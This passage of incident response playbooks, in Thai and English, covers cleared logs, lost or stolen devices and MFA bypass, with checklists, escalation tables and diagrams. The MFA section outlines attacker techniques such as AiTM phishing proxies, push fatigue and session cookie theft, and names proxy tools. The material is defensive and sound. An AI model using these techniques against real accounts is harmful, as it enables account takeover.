| 2 | **ล็อกบัญชี** ที่ลบ log (ถ้าไม่ใช่ authorized admin) | ☐ |
| 3 | **สำรอง** log ที่เหลือและ memory dump ทันที | ☐ |
| 4 | **ตรวจ SIEM** — ข้อมูลที่ส่งไป SIEM ก่อนถูกลบยังอยู่ | ☐ |
| 5 | **เปิด enhanced logging** | ☐ |

### 2.2 ค้นหากิจกรรมก่อนหน้า

ค้นหาเหตุการณ์ที่เกิดขึ้น **ก่อน** log ถูกลบ:

| ค้นหา | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Lateral movement | AD logs, network | ☐ |
| Privilege escalation | Event 4672, 4728 | ☐ |
| Malware execution | EDR telemetry | ☐ |
| Data exfiltration | DLP / Netflow | ☐ |
| Account creation | Event 4720 | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | จัดการเหตุการณ์หลัก (malware/intrusion ที่ทำให้ต้องลบ log) | ☐ |
| 2 | คืนค่า audit policies ที่ถูกเปลี่ยน | ☐ |
| 3 | ลบ tools ที่ใช้ลบ log | ☐ |
| 4 | หมุนเวียน credentials | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | กู้คืน log จาก backup / SIEM ที่ยังมีอยู่ | ☐ |
| 2 | บังคับ centralized logging — WORM storage | ☐ |
| 3 | ใช้ Sysmon ร่วมกับ Event Forwarding | ☐ |
| 4 | บังคับ GPO ปิดกั้นการลบ log | ☐ |
| 5 | เปิด log integrity monitoring (FIM) | ☐ |
| 6 | ติดตาม 30 วัน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Log ถูกลบหลังการโจมตี (ปกปิดร่องรอย) | Major Incident |
| Admin ลบ log โดยไม่ได้รับอนุมัติ | CISO + HR ([PB-20 Rogue Admin](Rogue_Admin.th.md)) |
| หลายระบบถูกลบ log พร้อมกัน | Tier 2 + Threat Hunt |
| Audit policy ถูกปิด | CISO ทันที |
| ไม่สามารถกู้คืน log ได้ | Legal (หลักฐานไม่สมบูรณ์) |

---

### ผัง Log Protection Architecture

```mermaid
graph TD
    Source["📝 Log Source"] --> Agent["📡 Agent forward"]
    Agent --> SIEM["📊 SIEM (immutable)"]
    Agent --> WORM["🔒 WORM storage"]
    Source --> Local["💽 Local (vulnerable)"]
    Local -.->|❌ ถูกลบ| Attacker["🔴 Attacker"]
    SIEM -.->|✅ ยังอยู่| SOC["🎯 SOC"]
    style WORM fill:#27ae60,color:#fff
    style SIEM fill:#3498db,color:#fff
    style Local fill:#e74c3c,color:#fff
```

### ผัง Log Source Priority

```mermaid
graph LR
    Priority["📋 Priority"] --> P1["🔴 P1: Auth logs"]
    Priority --> P2["🟠 P2: Firewall/Proxy"]
    Priority --> P3["🟡 P3: Application"]
    Priority --> P4["🟢 P4: Debug"]
    P1 --> SIEM["📊 SIEM real-time"]
    P2 --> SIEM
    P3 --> Archive["🗄️ Archive 1yr"]
    P4 --> Archive
    style P1 fill:#e74c3c,color:#fff
    style P2 fill:#f39c12,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Windows Security Log Cleared | [win_security_log_cleared.yml](../../08_Detection_Engineering/sigma_rules/win_security_log_cleared.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-14 ภัยคุกคามจากภายใน](Insider_Threat.th.md)
- [PB-20 แอดมินกระทำผิด](Rogue_Admin.th.md)

## Log Tampering Detection Matrix

| Log Type | Expected Volume | Clearing Indicator | Detection |
|:---|:---|:---|:---|
| Windows Security | > 100 events/hr | Event 1102 | Immediate |
| Linux syslog | > 50 lines/hr | Sudden gap | 5 min check |
| Application | Varies | Zero events | Baseline compare |
| Firewall | > 200 events/hr | Counter reset | Continuous |

### Anti-Tampering Controls

| Control | Implementation | Priority |
|:---|:---|:---|
| Log forwarding | Real-time to SIEM | P1 |
| Immutable storage | WORM/append-only | P1 |
| Integrity monitoring | File hash checking | P2 |
| Admin audit trail | Privileged action logging | P1 |

### Backup Log Verification

| Source | Forwarded To | Verified |
|:---|:---|:---|
| Windows Events | SIEM | ☐ |
| Linux syslog | Syslog server | ☐ |
| Network devices | SIEM | ☐ |

## อ้างอิง

- [MITRE ATT&CK T1070 — Indicator Removal](https://attack.mitre.org/techniques/T1070/)


---

## File: 05_Incident_Response/Playbooks/Lost_Device.en.md

# Playbook: Lost/Stolen Device

**ID**: PB-19
**Severity**: Medium/High | **Category**: Physical Security / Data Protection
**MITRE ATT&CK**: [T1025](https://attack.mitre.org/techniques/T1025/) (Data from Removable Media), [T1552](https://attack.mitre.org/techniques/T1552/) (Unsecured Credentials)
**Trigger**: Employee report (device lost/stolen), MDM non-check-in alert, Asset mismatch

### Risk Assessment

```mermaid
graph TD
    Lost["📱 Device Lost"] --> Encrypt{"🔒 Encrypted?"}
    Encrypt -->|Yes| Low["🟢 Low Risk"]
    Encrypt -->|No| High["🔴 High Risk"]
    Low --> Data{"📁 Sensitive Data?"}
    High --> Wipe["📲 Remote Wipe Now"]
    Data -->|Yes| Wipe
    Data -->|No| Lock["🔒 Remote Lock"]
```

### Remote Wipe Flow

```mermaid
sequenceDiagram
    participant User
    participant SOC
    participant MDM
    participant IT
    User->>SOC: 📞 Report lost device
    SOC->>MDM: Remote Lock
    SOC->>SOC: Assess data risk
    SOC->>MDM: Remote Wipe
    MDM-->>SOC: ✅ Wipe initiated
    SOC->>IT: Revoke certificates
```

---

## Decision Flow

```mermaid
graph TD
    Report["📱 Device Lost/Stolen"] --> Type{"💻 Device Type?"}
    Type -->|Laptop| Encrypt{"🔒 Full Disk Encryption?"}
    Type -->|Mobile| MDM{"📲 MDM Managed?"}
    Encrypt -->|Yes, BitLocker/FileVault| MedRisk["🟡 Medium Risk"]
    Encrypt -->|No / Unknown| HighRisk["🔴 High Risk"]
    MDM -->|Yes, Passcode Set| MedRisk
    MDM -->|No / No Passcode| HighRisk
    MedRisk --> Data{"📄 Sensitive Data?"}
    HighRisk --> Wipe["🗑️ Remote Wipe ASAP"]
    Data -->|Yes, PII/Source/Creds| Wipe
    Data -->|No, Standard| Revoke["🔑 Revoke & Monitor"]
    Wipe --> Creds["🔄 Reset All Credentials"]
    Revoke --> Creds
    Creds --> Replace["💻 Provision New Device"]
```

---

## 1. Analysis

### 1.1 Initial Assessment

| Question | Answer | Done |
|:---|:---|:---:|
| What type of device? (laptop, phone, tablet) | | ☐ |
| Make/model/serial number | | ☐ |
| When was it last seen/used? | | ☐ |
| Where was it lost? (office, travel, public) | | ☐ |
| Was it lost or stolen? (theft vs misplaced) | | ☐ |
| Full disk encryption enabled? (BitLocker/FileVault/LUKS) | | ☐ |
| Device passcode/PIN set? | | ☐ |
| MDM enrolled? | | ☐ |
| Last MDM check-in time? | | ☐ |

### 1.2 Data Risk Assessment

| Data Category | Present on Device? | Classification |
|:---|:---|:---|
| Source code / IP | ☐ Yes ☐ No | L3/L4 |
| Customer PII | ☐ Yes ☐ No | L4 |
| Financial data | ☐ Yes ☐ No | L4 |
| Credentials / SSH keys | ☐ Yes ☐ No | L4 |
| Email / chat history | ☐ Yes ☐ No | L2/L3 |
| VPN certificates / config | ☐ Yes ☐ No | L3 |
| Browser saved passwords | ☐ Yes ☐ No | L4 |
| Cloud sync (OneDrive/Dropbox) | ☐ Yes ☐ No | L2-L4 |

---

## 2. Containment

### 2.1 Immediate Actions (within 30 minutes)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Remote wipe** command | Intune / Jamf / Google Workspace | ☐ |
| 2 | **Lock device** (if wipe fails or pending) | MDM | ☐ |
| 3 | **Reset domain password** | AD / IdP | ☐ |
| 4 | **Revoke VPN / Wi-Fi certificates** | Certificate authority | ☐ |
| 5 | **Revoke OAuth tokens / active sessions** | IdP session management | ☐ |
| 6 | **Disable device in Azure AD / IdP** | Azure AD / Okta | ☐ |

### 2.2 If Device Is Unencrypted or Stolen (High Risk)

| # | Additional Action | Done |
|:---:|:---|:---:|
| 1 | Reset ALL passwords the user may have saved in browser | ☐ |
| 2 | Rotate SSH keys, API tokens, certificates on the device | ☐ |
| 3 | Revoke cloud sync app tokens (OneDrive, Dropbox, iCloud) | ☐ |
| 4 | Check for sensitive files in recent activity | ☐ |
| 5 | Notify Legal if PII was on the device | ☐ |

---

## 3. Investigation

| Check | How | Done |
|:---|:---|:---:|
| Any login attempts from device after loss? | SIEM — filter by device serial/hostname | ☐ |
| Any VPN connections from device? | VPN logs | ☐ |
| MDM wipe confirmed? | MDM console — wipe status | ☐ |
| Location tracking available? | MDM / Find My Device | ☐ |
| Police report filed? (if stolen) | Physical security / User | ☐ |

---

## 4. Recovery

| # | Action | Owner | Done |
|:---:|:---|:---|:---:|
| 1 | Provision new device with current SOE image | IT Operations | ☐ |
| 2 | Restore user data from cloud backup | IT / User | ☐ |
| 3 | Re-enroll new device in MDM | IT Operations | ☐ |
| 4 | Issue new certificates (VPN, Wi-Fi) | IT Security | ☐ |
| 5 | Verify all credential resets are complete | SOC | ☐ |
| 6 | Remove old device from asset inventory | Asset Management | ☐ |
| 7 | Monitor for old device serial in logs for 30 days | SOC | ☐ |

---

## 5. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Unencrypted device with PII | Legal + DPO (PDPA 72h) |
| Executive / VIP device stolen | CISO + Physical Security |
| Device shows login activity after reported lost | Tier 2 — treat as active compromise |
| Source code or credentials on device | CISO + Engineering lead |
| Multiple devices lost (pattern) | Physical Security + HR |

---

## 6. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Device serial / asset tag | | Asset management |
| Last known IP | | MDM / DHCP logs |
| Last known Wi-Fi AP | | MDM / network logs |
| Last GPS coordinates | | MDM (if enabled) |
| User account | | HR / AD |
| Last sign-in time | | Azure AD / Okta |
| Corporate apps installed | | MDM inventory |
| VPN connection history | | VPN gateway logs |

## 7. Post-Incident

- [ ] Update asset management system (mark device as lost/stolen)
- [ ] Review and update device encryption enforcement policy
- [ ] Verify MDM enrollment compliance (are all devices enrolled?)
- [ ] Issue replacement device with pre-configured security baseline
- [ ] Conduct awareness training on physical device security
- [ ] Review insurance coverage for lost/stolen equipment
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### MDM Lifecycle

```mermaid
graph LR
    Enroll["📲 Enroll"] --> Policy["📋 Policy Push"]
    Policy --> Monitor["👁️ Monitor"]
    Monitor --> Alert["🚨 Lost/Stolen"]
    Alert --> Lock["🔒 Remote Lock"]
    Lock --> Wipe["🗑️ Selective Wipe"]
    Wipe --> Retire["♻️ Retire"]
    style Alert fill:#e74c3c,color:#fff
    style Wipe fill:#c0392b,color:#fff
```

### Device Data Classification

```mermaid
graph TD
    Device["📱 Device"] --> Type{"🏷️ Data Type?"}
    Type -->|PII/PDPA| Critical["🔴 Critical — wipe now"]
    Type -->|Business| High["🟠 High — wipe 4h"]
    Type -->|General| Medium["🟡 Medium — lock + track"]
    Type -->|No data| Low["🟢 Low — lock only"]
    Critical --> Legal["⚖️ Notify DPO"]
    style Critical fill:#e74c3c,color:#fff
    style Legal fill:#8e44ad,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Device Offline for Extended Period | [mdm_device_offline.yml](../../08_Detection_Engineering/sigma_rules/mdm_device_offline.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [Data Governance Policy](../../07_Compliance_Privacy/Data_Governance_Policy.en.md)
- [PDPA Compliance](../../07_Compliance_Privacy/PDPA_Compliance.en.md)

## References

- [NIST SP 800-46 — Telework and Remote Access Security](https://csrc.nist.gov/publications/detail/sp/800-46/rev-2/final)
- [MITRE ATT&CK T1025 — Data from Removable Media](https://attack.mitre.org/techniques/T1025/)


---

## File: 05_Incident_Response/Playbooks/Lost_Device.th.md

# Playbook: อุปกรณ์สูญหายหรือถูกขโมย

**ID**: PB-19
**ระดับความรุนแรง**: ปานกลาง/สูง | **หมวดหมู่**: ความปลอดภัยทางกายภาพ
**MITRE ATT&CK**: [T1078](https://attack.mitre.org/techniques/T1078/) (บัญชีที่ถูกต้อง), [T1530](https://attack.mitre.org/techniques/T1530/) (ข้อมูลจากที่เก็บคลาวด์)
**ทริกเกอร์**: ผู้ใช้รายงานอุปกรณ์หาย/ถูกขโมย, MDM offline alert, ทรัพย์สินไม่ตรง


## หลังเหตุการณ์ (Post-Incident)

- [ ] อัพเดท asset management (สถานะ lost/stolen)
- [ ] ทบทวน device encryption enforcement policy
- [ ] ตรวจ MDM enrollment compliance
- [ ] ออกอุปกรณ์ทดแทนพร้อม security baseline
- [ ] จัด awareness training เรื่อง physical security
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังการประเมินความเสี่ยง

```mermaid
graph TD
    Lost["📱 อุปกรณ์หาย"] --> Encrypt{"🔒 เข้ารหัส?"}
    Encrypt -->|ใช่| Low["🟢 ความเสี่ยงต่ำ"]
    Encrypt -->|ไม่| High["🔴 ความเสี่ยงสูง"]
    Low --> Data{"📁 ข้อมูลสำคัญ?"}
    High --> Wipe["📲 Remote Wipe ทันที"]
    Data -->|ใช่| Wipe
    Data -->|ไม่| Lock["🔒 Remote Lock"]
```

### ผังขั้นตอน Remote Wipe

```mermaid
sequenceDiagram
    participant User as ผู้ใช้
    participant SOC
    participant MDM
    participant IT
    User->>SOC: 📞 แจ้งอุปกรณ์หาย
    SOC->>MDM: สั่ง Remote Lock
    SOC->>SOC: ประเมิน data risk
    SOC->>MDM: สั่ง Remote Wipe
    MDM-->>SOC: ✅ Wipe initiated
    SOC->>IT: เพิกถอน certificates
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Report["📞 แจ้งอุปกรณ์สูญหาย"] --> Type{"📱 ประเภทอุปกรณ์?"}
    Type -->|โน้ตบุ๊ก| Laptop["💻 โน้ตบุ๊ก"]
    Type -->|มือถือ/แท็บเล็ต| Mobile["📱 มือถือ"]
    Type -->|USB/HDD| USB["💾 สื่อจัดเก็บ"]
    Laptop --> Encrypted{"🔒 เข้ารหัสเต็มดิสก์?"}
    Mobile --> MDM{"📲 มี MDM?"}
    USB --> Classify["📁 จำแนกข้อมูลในอุปกรณ์"]
    Encrypted -->|ใช่ (BitLocker/FileVault)| LowRisk["🟡 ความเสี่ยงต่ำ — ล็อก + ติดตาม"]
    Encrypted -->|ไม่| HighRisk["🔴 ความเสี่ยงสูง — Wipe ทันที"]
    MDM -->|ใช่| Wipe["📱 Selective/Full Wipe"]
    MDM -->|ไม่| HighRisk
    Classify -->|ข้อมูลสำคัญ| HighRisk
    HighRisk --> FullResponse["🔒 ตอบสนองเต็มรูปแบบ"]
```

---

## 1. การวิเคราะห์

### 1.1 การประเมินข้อมูลที่เสี่ยง

| ประเภทข้อมูล | มีอยู่ในอุปกรณ์? | เข้ารหัส? | ความเสี่ยง |
|:---|:---|:---|:---|
| อีเมลองค์กร | ☐ ใช่ ☐ ไม่ | ☐ ใช่ ☐ ไม่ | |
| เอกสาร / ไฟล์งาน | ☐ ใช่ ☐ ไม่ | ☐ ใช่ ☐ ไม่ | |
| ซอร์สโค้ด | ☐ ใช่ ☐ ไม่ | ☐ ใช่ ☐ ไม่ | |
| PII ลูกค้า | ☐ ใช่ ☐ ไม่ | ☐ ใช่ ☐ ไม่ | |
| Credentials / Keys / Tokens | ☐ ใช่ ☐ ไม่ | ☐ ใช่ ☐ ไม่ | |
| VPN / Network access | ☐ ใช่ ☐ ไม่ | ☐ ใช่ ☐ ไม่ | |
| ข้อมูลการเงิน | ☐ ใช่ ☐ ไม่ | ☐ ใช่ ☐ ไม่ | |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| สูญหายเมื่อไหร่/ที่ไหน? | สัมภาษณ์ผู้ใช้ | ☐ |
| แจ้งตำรวจแล้วหรือไม่? | ผู้ใช้ | ☐ |
| มีรหัสผ่าน/PIN ล็อกอุปกรณ์? | MDM / ผู้ใช้ | ☐ |
| เปิด Full Disk Encryption? (BitLocker/FileVault) | MDM | ☐ |
| อุปกรณ์ลงทะเบียนใน MDM? | Intune / Jamf | ☐ |
| เปิด Find My Device? | Apple / Google | ☐ |
| ล็อกอินอัตโนมัติ (cached credentials) | ผู้ใช้ | ☐ |

---

## 2. การควบคุม

### 2.1 การดำเนินการทันที

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **ล็อกอุปกรณ์** ระยะไกล | MDM / Find My | ☐ |
| 2 | **รีเซ็ตรหัสผ่าน** บัญชีผู้ใช้ (AD, M365, ทั้งหมด) | AD / IdP | ☐ |
| 3 | **เพิกถอน sessions** และ tokens ทั้งหมด | IdP | ☐ |
| 4 | **บล็อก** อุปกรณ์ใน Conditional Access | IdP / MDM | ☐ |
| 5 | **ตัดการเชื่อมต่อ VPN** | VPN management | ☐ |
| 6 | **หมุนเวียน API keys / SSH keys** ที่เก็บในอุปกรณ์ | ผู้ใช้ + IT | ☐ |

### 2.2 การ Wipe

| ข้อมูล | อุปกรณ์ BYOD | อุปกรณ์องค์กร |
|:---|:---|:---|
| **Selective Wipe** (ข้อมูลองค์กรเท่านั้น) | ✅ แนะนำ | ☐ ทางเลือก |
| **Full Wipe** | ☐ ต้องการความยินยอม | ✅ แนะนำ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | หมุนเวียน credentials ทั้งหมดที่อาจ cached ในอุปกรณ์ | ☐ |
| 2 | เพิกถอน certificates ที่ออกให้อุปกรณ์ | ☐ |
| 3 | ยกเลิกเครื่องออกจาก Intune/Jamf | ☐ |
| 4 | ย้ายอุปกรณ์ไป "Lost" group ใน AD | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ออกอุปกรณ์ใหม่ให้ผู้ใช้ | ☐ |
| 2 | ตั้งค่า MDM + disk encryption ในอุปกรณ์ใหม่ | ☐ |
| 3 | ลงทะเบียน MFA ใหม่ | ☐ |
| 4 | ตรวจว่ามีกิจกรรมผิดปกติในบัญชีระหว่างสูญหาย | ☐ |
| 5 | อัปเดตทะเบียนทรัพย์สิน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| PII ลูกค้าในอุปกรณ์ที่ไม่เข้ารหัส | Legal + DPO (PDPA 72 ชม.) |
| อุปกรณ์ผู้บริหารหรือ admin | CISO ทันที |
| มีหลักฐานว่าอุปกรณ์ถูกเข้าถึงหลังสูญหาย | Major Incident |
| อุปกรณ์หลายเครื่องสูญหาย (รูปแบบ) | Security + HR |
| อุปกรณ์ถูกขโมยอย่างเจาะจง | Law Enforcement |

---

### ผัง MDM Lifecycle

```mermaid
graph LR
    Enroll["📲 Enroll"] --> Policy["📋 Policy Push"]
    Policy --> Monitor["👁️ Monitor"]
    Monitor --> Alert["🚨 Lost/Stolen"]
    Alert --> Lock["🔒 Remote Lock"]
    Lock --> Wipe["🗑️ Selective Wipe"]
    Wipe --> Retire["♻️ Retire"]
    style Alert fill:#e74c3c,color:#fff
    style Wipe fill:#c0392b,color:#fff
```

### ผัง Device Data Classification

```mermaid
graph TD
    Device["📱 อุปกรณ์"] --> Type{"🏷️ ประเภทข้อมูล?"}
    Type -->|PII/PDPA| Critical["🔴 Critical — wipe ทันที"]
    Type -->|Business| High["🟠 High — wipe 4h"]
    Type -->|General| Medium["🟡 Medium — lock + track"]
    Type -->|No data| Low["🟢 Low — lock เท่านั้น"]
    Critical --> Legal["⚖️ แจ้ง DPO"]
    style Critical fill:#e74c3c,color:#fff
    style Legal fill:#8e44ad,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Device Offline for Extended Period | [mdm_device_offline.yml](../../08_Detection_Engineering/sigma_rules/mdm_device_offline.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-28 อุปกรณ์มือถือถูกบุกรุก](Mobile_Compromise.th.md)

## Device Type Response Matrix

| Device Type | Remote Wipe | Data Risk | Priority |
|:---|:---|:---|:---|
| Laptop (encrypted) | ✅ MDM | Low | Medium |
| Laptop (unencrypted) | ✅ MDM | Critical | Urgent |
| Mobile (managed) | ✅ MDM | Low | Medium |
| Mobile (BYOD) | Limited | Medium | High |
| USB/External drive | ❌ N/A | High | High |

### Lost Device Checklist

| Step | Action | Timeline | Owner |
|:---|:---|:---|:---|
| 1 | Report to SOC | Immediately | User |
| 2 | Revoke access tokens | 15 min | SOC |
| 3 | Change passwords | 30 min | User + IT |
| 4 | Remote wipe (if possible) | 1 hr | MDM Admin |
| 5 | File police report | 24 hrs | User |
| 6 | Assess data exposure | 48 hrs | Security |

### Device Data Risk Assessment

| Data Type | Encrypted? | Risk |
|:---|:---|:---|
| Email cache | Check policy | Medium-High |
| VPN credentials | Usually | Medium |
| Saved passwords | Browser-dependent | High |

## อ้างอิง

- [NIST SP 800-124r2 — Mobile Device Management](https://csrc.nist.gov/publications/detail/sp/800-124/rev-2/final)


---

## File: 05_Incident_Response/Playbooks/MFA_Bypass.en.md

# Playbook: MFA Bypass / Token Theft

**ID**: PB-26
**Severity**: High/Critical | **Category**: Identity & Access
**MITRE ATT&CK**: [T1556.006](https://attack.mitre.org/techniques/T1556/006/) (MFA Modification), [T1539](https://attack.mitre.org/techniques/T1539/) (Steal Web Session Cookie), [T1111](https://attack.mitre.org/techniques/T1111/) (Multi-Factor Authentication Interception)
**Trigger**: AiTM proxy detection, session token anomaly, MFA fatigue (push spam), IdP risk alert

> ⚠️ **CRITICAL**: MFA bypass means the attacker defeated your strongest control — act immediately.

### AiTM (Adversary-in-the-Middle) Attack

```mermaid
sequenceDiagram
    participant Victim
    participant Proxy as Phishing Proxy
    participant IdP as Azure AD
    Victim->>Proxy: 1. Click phishing link
    Proxy->>IdP: 2. Forward credentials
    IdP-->>Proxy: 3. MFA challenge
    Proxy-->>Victim: 4. Show MFA prompt
    Victim->>Proxy: 5. Complete MFA
    Proxy->>IdP: 6. Send MFA response
    IdP-->>Proxy: 7. Session cookie
    Note over Proxy: 🎯 Stolen session cookie!
    Proxy->>Proxy: 8. Access account with cookie
```

### MFA Security Levels

```mermaid
graph LR
    SMS["📱 SMS OTP"] --> TOTP["📲 TOTP App"]
    TOTP --> Push["🔔 Push Notification"]
    Push --> NumberMatch["🔢 Number Matching"]
    NumberMatch --> FIDO["🔑 FIDO2/Passkey"]
    style SMS fill:#e74c3c,color:#fff
    style TOTP fill:#f39c12,color:#fff
    style Push fill:#f1c40f,color:#000
    style NumberMatch fill:#2ecc71,color:#fff
    style FIDO fill:#27ae60,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 MFA Bypass / Token Anomaly"] --> Method{"⚙️ Attack Method?"}
    Method -->|AiTM Proxy| AiTM["🎣 Adversary-in-the-Middle"]
    Method -->|MFA Fatigue| Fatigue["📲 Push Spam / Bombing"]
    Method -->|Token Theft| Token["🍪 Session Cookie Stolen"]
    Method -->|SIM Swap| SIM["📞 SMS MFA Hijacked"]
    Method -->|Device Compromise| Device["💻 Malware Stealing Tokens"]
    AiTM --> Phish["🔍 Find Phishing Page"]
    Fatigue --> Contact["📞 Contact User"]
    Token --> Replay["🔍 Identify Token Replay"]
    SIM --> Carrier["📞 Contact Carrier"]
    Device --> EDR["🔍 Check Endpoint"]
    Phish --> Revoke["🔒 Revoke All Sessions"]
    Contact -->|User Accepted Push| Revoke
    Contact -->|User Didn't Accept| FP["✅ MFA Held — Monitor"]
    Replay --> Revoke
    Carrier --> Revoke
    EDR --> Revoke
```

---

## 1. Analysis

### 1.1 MFA Bypass Methods

| Method | How It Works | Detection |
|:---|:---|:---|
| **AiTM Proxy** (EvilProxy, Evilginx) | Phishing page proxies real login, captures session token | URL mismatch, certificate analysis, TI feeds |
| **MFA Fatigue / Push Bombing** | Spam MFA push notifications until user accepts | Multiple denied pushes then accept, SIEM correlation |
| **Session Token Theft** | Malware/script steals browser cookies | Different IP using same session ID, impossible geo |
| **SIM Swap** | Attacker takes over phone number for SMS OTP | User loses signal, carrier reports, auth logs |
| **Device Compromise** | Malware ex filtrates TOTP seeds or session cookies | EDR alerts, browser extension analysis |
| **Social Engineering** | Helpdesk tricked into resetting MFA | Reset without ticket, call recording review |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Identify the bypass method used | Sign-in logs, phishing analysis, user interview | ☐ |
| Review sign-in logs for anomalies | Azure AD / Okta — IP, location, device, risk | ☐ |
| Check for session token replay | Same session ID from different IPs | ☐ |
| MFA push notification history | IdP MFA logs — denied then accepted? | ☐ |
| Newly registered MFA methods | IdP audit — new phone, new authenticator? | ☐ |
| OAuth app consents since compromise | Enterprise Applications audit | ☐ |
| Inbox forwarding rules created | Exchange audit, `Get-InboxRule` | ☐ |
| Data accessed during compromised session | Cloud audit logs, file activity | ☐ |

### 1.3 Post-Compromise Activity (What Did Attacker Do?)

| Activity | Check | Done |
|:---|:---|:---:|
| Email access / forwarding | Inbox rules, message trace | ☐ |
| File downloads | SharePoint / OneDrive audit | ☐ |
| MFA method changes | IdP authentication methods audit | ☐ |
| Password changes | Directory audit | ☐ |
| Privilege changes | Role assignments, group changes | ☐ |
| OAuth app consents | Enterprise app permissions | ☐ |
| Internal phishing sent | Outbox / sent items | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions (within 5 minutes)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Revoke ALL sessions** and refresh tokens | IdP (`Revoke-AzureADUserAllRefreshToken`) | ☐ |
| 2 | **Block compromised session** cookie/token | IdP / WAF | ☐ |
| 3 | **Disable account** temporarily | IdP | ☐ |
| 4 | **Block AiTM infrastructure** (phishing domain/IP) | Firewall / DNS / Proxy | ☐ |
| 5 | **Remove phishing email** from all mailboxes | Exchange / M365 | ☐ |

### 2.2 Extended Containment

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Search for same phishing email across all users | ☐ |
| 2 | Check if other users visited the AiTM proxy | ☐ |
| 3 | Revoke malicious OAuth app consents | ☐ |
| 4 | Remove attacker-created inbox rules / delegates | ☐ |
| 5 | Remove attacker-registered MFA methods | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Reset password** via verified alternate channel | ☐ |
| 2 | **Clear ALL MFA factors** and re-register from verified device | ☐ |
| 3 | Use **phishing-resistant MFA** for re-enrollment (FIDO2/passkey) | ☐ |
| 4 | Revoke ALL OAuth app consents and re-authorize only needed apps | ☐ |
| 5 | Delete forwarding rules, delegates, and mail flow rules | ☐ |
| 6 | Scan user's device for infostealers / token-stealing malware | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Re-enable account with phishing-resistant MFA (FIDO2 / passkeys) | ☐ |
| 2 | Enforce Conditional Access: compliant device + managed app required | ☐ |
| 3 | Reduce token lifetime and enable CAE (Continuous Access Evaluation) | ☐ |
| 4 | Enable token protection (token binding) if supported | ☐ |
| 5 | Block legacy authentication protocols | ☐ |
| 6 | Deploy number matching for push MFA (prevent fatigue attacks) | ☐ |
| 7 | Monitor account for 30 days | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| AiTM phishing URL / domain | | Email / TI |
| AiTM proxy IP | | DNS / Proxy logs |
| Compromised session token ID | | Sign-in logs |
| Attacker IP(s) | | Sign-in logs |
| Malicious OAuth app ID | | Enterprise Apps |
| Inbox rules created | | Exchange audit |
| MFA methods registered by attacker | | IdP audit |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Executive / admin account bypassed | CISO immediately |
| Multiple users compromised via AiTM | Major Incident |
| Data exfiltration during compromised session | Legal + DPO (PDPA 72h) |
| Attacker registered persistent MFA method | Tier 2 + Identity team |
| BEC follow-up from compromised account | [PB-17 BEC](BEC.en.md) |
| Helpdesk social engineering confirmed | CISO + HR |

---

### MFA Rollout Strategy

```mermaid
graph TD
    Plan["📋 MFA Rollout"] --> Admin["👑 Phase 1: Admin"]
    Admin --> VIP["🏢 Phase 2: VIP/Finance"]
    VIP --> All["👥 Phase 3: All users"]
    All --> FIDO["🔑 Phase 4: FIDO2"]
    Admin --> Enforce["🔒 Enforce"]
    VIP --> Enforce
    All --> Enforce
    style Admin fill:#e74c3c,color:#fff
    style FIDO fill:#27ae60,color:#fff
```

### Phishing-Resistant MFA Comparison

```mermaid
graph LR
    MFA{"📱 MFA Type"} --> SMS["📲 SMS — ❌ SIM swap"]
    MFA --> TOTP["🔢 TOTP — ⚠️ Phishable"]
    MFA --> Push["🔔 Push — ⚠️ Fatigue"]
    MFA --> Number["🔢 Number Match — ✅ Better"]
    MFA --> FIDO["🔑 FIDO2 — ✅ Best"]
    style SMS fill:#e74c3c,color:#fff
    style TOTP fill:#f39c12,color:#fff
    style Push fill:#f39c12,color:#fff
    style Number fill:#2ecc71,color:#fff
    style FIDO fill:#27ae60,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| MFA Bypass / Token Theft Detection | [cloud_mfa_bypass.yml](../../08_Detection_Engineering/sigma_rules/cloud_mfa_bypass.yml) |
